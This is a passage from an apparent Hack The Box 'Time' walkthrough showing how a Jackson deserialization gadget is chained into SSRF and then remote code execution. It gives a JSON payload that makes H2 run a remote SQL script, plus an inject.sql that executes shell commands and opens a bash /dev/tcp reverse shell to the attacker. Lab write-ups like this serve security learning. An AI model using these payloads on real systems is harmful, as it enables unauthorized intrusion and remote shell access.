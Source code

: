 ![JDBC - SSRF (Locally)](assets/img/posts/time-htb/ssrf-jdbc.png)


```bash
jruby test.rb "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:tcp://10.10.14.9:9000/ssrf/\"}]"
```

The file **test.rb** creates a vulnerable environment for us, we can confirm that our JSON exploit works!

Our goal is not just to establish TCP connections between the vulnerable machine and our machine but to gain code execution, for that we can load our SQL file by exploiting this SSRF and when that SQL file is executed by the H2 database, the system commands will be executed.

---

### Reverse Shell as pericles <a name="revshell">

We can use the following JSON object to load our SQL file and gain code execution

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://LHOST:LPORT/inject.sql'"}]"
```

We can see that we've specified `INIT=RUNSCRIPT` which will initiate a JDBC connection and load SQL file from our controlled host. The contents of inject.sql should be as follows.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/LHOST/LPORT 0>&1')
```
